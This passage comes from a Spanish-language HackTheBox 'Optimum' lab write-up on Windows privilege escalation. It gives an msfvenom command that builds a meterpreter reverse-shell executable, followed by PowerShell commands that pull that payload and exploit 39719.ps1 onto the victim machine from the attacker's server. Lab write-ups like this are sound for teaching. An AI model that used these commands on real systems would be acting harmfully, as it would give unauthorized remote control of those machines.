 En mi caso descargo el .ps1 aunque también se puede hacer a través de metasploit.

Lo descargo y le echo un vistazo para ver el contenido del mismo.

Veo que está llamando al ejecutable cmd.exe, pero eso no nos sirve, debemos modificar el script añadiendo un archivo malicioso que crearemos con msfvenom.

![](/assets/images/HTB/Optimum-HackTheBox/exploit2.png)

Seguimos estos pasos:

1. Creación del archivo malicioso con msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.3 lport=1234 -f exe -o malicioso.exe 
```

2. Subimos el malicioso a la máquina víctima.

Con el servidor python `` python3 -m http.server 8080 ``

Y en la máquina:
```powershell
iwr -Uri http://10.10.14.3:8080/malicioso.exe -OutFile C:\Users\kostas\Desktop\malicioso.exe
```

3. Editamos el script del exploit:

![](/assets/images/HTB/Optimum-HackTheBox/exploit3.png)

4. Subimos el exploit a la máquina víctima

Con el servidor python `` python3 -m http.server 8080 ``

Y en la máquina
```powershell
iwr -Uri http://10.10.14.3:8080/39719.ps1 -OutFile C:\Users\kostas\Desktop\39719.ps1
```

5. Una vez subido nos abrimos metasploit

![](/assets/images/HTB/Optimum-HackTheBox/metasploit1.png)
